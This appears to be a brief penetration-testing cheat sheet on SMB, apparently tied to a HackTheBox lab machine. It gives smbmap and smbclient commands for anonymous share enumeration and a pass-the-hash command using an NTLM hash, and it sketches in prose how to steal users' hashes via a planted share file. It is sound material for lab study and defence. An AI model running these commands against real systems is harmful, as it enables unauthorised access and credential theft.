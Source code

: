# SMB

## Null Session

**smbmap**:

```
 smbmap -H querier.htb -u anonymous -d localhost
```

Use the -R flag to recursively list everything.

**smbclient**:&#x20;

```
smbclient -L \querier.htb
```

Enter any password or supply the --no-pass flag.

## Pass The Hash (NTLM challenge-response)

The NTLM hash of a user’s password is used in the NTLM challenge-response authentication protocol. Therefore, if you know the user’s NTLM hash, you can impersonate that user for services that rely on NTLM challenge-response.

_Note: If you just have the NT hash, then you can just input the NT hash twice. No one really checks the LM hash anyways._

```
smbmap -u USERNAME -p 0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B -H HOST
```

## NTLM Hash Theft

If you have access to a network share, then you can drop a file in there that will result in a user's NTLM hash being stolen when they navigate to that share.&#x20;

TODO: Link main article in post exploitation

